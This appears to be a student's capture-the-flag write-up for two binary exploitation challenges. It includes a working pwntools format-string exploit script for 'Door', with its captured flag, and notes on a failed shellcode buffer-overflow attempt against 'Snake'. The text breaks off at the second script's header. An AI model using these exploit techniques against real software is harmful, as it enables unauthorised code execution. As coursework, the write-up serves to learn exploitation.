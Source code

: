 ==========================================================
Door
==========================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNC1kb29yIiwiaXAiOiIxMDEuMTY0LjMzLjIxOSIsInNlc3Npb24iOiI0YmUwNjM5Yi00NGZmLTQ0NWQtOGY4ZS0wMmZjMGRmZGNmNjYifQ.59gFu5H6lcbFxSuneIwOShDAKD370jex1jiYMm6cjE4}
==========================================================
Script used:
    #!/usr/bin/env python

    from pwn import *

    #p = process("./door")
    p = remote("plsdonthaq.me", 4001)

    p.recvuntil(" at ")
    address = int(p.recvuntil("\n", drop=True), 16)
    p.recvuntil("open:")

    distance = (0x218 - 0x210) / 4
    char = 0x53455041 # APES = 41 50 45 53

    payload = b"b"
    payload += p32(address + 0)
    payload += p32(address + 1)
    payload += p32(address + 2)
    payload += p32(address + 3)
    payload += b"%239c"

    for i in range(4):
        byte = char & 0xff
        char >>= 8
        if (byte == 0):
            payload += b"%{}$hhn".format(distance + i)
        else:
            payload+= b"%{}c%{}$hhn%{}c".format(byte, distance + i, 256 - byte)

    p.sendline(payload)

    p.interactive()

==========================================================


==========================================================
Snake
==========================================================
Comments:
    I'm unsure why my exploit wasn't working, I checked with gdb and it seemed that the EIP was being overwritten with the correct address and that all of the values were being written correctly, but it didn't seem to be able to execute the shellcode, it always segfaulted). I'll go through my thought process is solving what I could
 1. When the 'Print flag' option was chosen, and 80 or more bytes were written, the function
    would fail and instead print the memory address of the variable storing the input from the user (var_10), this buffer couldn't be overflowed.
 2. The buffer in the get_name function could be overflowed though, and it as 26 bytes below 
    the other buffer, so I attempted to write a 36 byte payload (shellscript to run /bin/sh), followed by the leaked address moved down 26 bytes to the get_name buffer. (address - 0x1A). I was able to successfully overwrite the EIP (when checking with gdb) but it was causing a segfault.
==========================================================
Script used:
    #!/usr/bin/python

